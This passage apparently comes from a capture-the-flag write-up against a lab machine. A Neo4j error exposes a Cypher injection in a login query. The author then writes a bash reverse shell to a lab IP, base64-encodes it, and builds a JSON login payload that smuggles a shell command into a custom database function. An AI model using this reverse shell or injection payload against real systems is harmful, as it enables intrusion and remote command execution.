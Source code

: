 ```bash
    self._attach()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/work/result.py", line 409, in _attach
    self._connection.fetch_message()
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 178, in inner
    func(*args, **kwargs)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt.py", line 860, in fetch_message
    res = self._process_message(tag, fields)
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_bolt5.py", line 370, in _process_message
    response.on_failure(summary_metadata or {})
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 245, in on_failure
    raise Neo4jError.hydrate(**metadata)
neo4j.exceptions.CypherSyntaxError: {code: Neo.ClientError.Statement.SyntaxError} {message: Query cannot conclude with MATCH (must be a RETURN clause, a FINISH clause, an update clause, a unit subquery call, or a procedure call with no YIELD). (line 1, column 1 (offset: 0))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'test' OR 1=1 //' return h.value as hash"
 ^}
```

This tell us we have some type of [Cypher Injection](https://pentester.land/blog/cypher-injection-cheatsheet/)[^1]. Looking at the query it looks to be trying to run the following:

```cypher
MATCH (u:USER) -[:SECRET]-> (h:SHA1) 
WHERE u.name = 'test' return h.value as hash
```

Okay so we know we have injection after `test` so lets first craft a reverse shell:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.22/9999 <&1'
```

and base64 it:

```bash
┌──(kali㉿kali)-[~/Labs/Cypher]
└─$ echo "bash -c 'exec bash -i &>/dev/tcp/10.10.14.22/9999 <&1'" | base64                     
YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTQuMjIvOTk5OSA8JjEnCg==
```

Because we found that suspicious custom function `custom.getUrlStatusCode("...")` spawns a shell running a `curl` command, we attempt a multi-statement injection. Something like:

- Escape out of the username check.
- Insert a `WITH 1 as n` or similar “bridge” so that we can `CALL` the custom function.
- Supply a command injection within the parameter to `custom.getUrlStatusCode("...")`.

The final injection might look like:

```json
{
  "username": "admin' OR 1=1 WITH 1 as n CALL custom.getUrlStatusCode('evil.com; ping -c5 10.10.14.22 #') YIELD statusCode RETURN n //",
  "password": "test1'+1=1--"
}
```


[^1]: https://pentester.land/blog/cypher-injection-cheatsheet/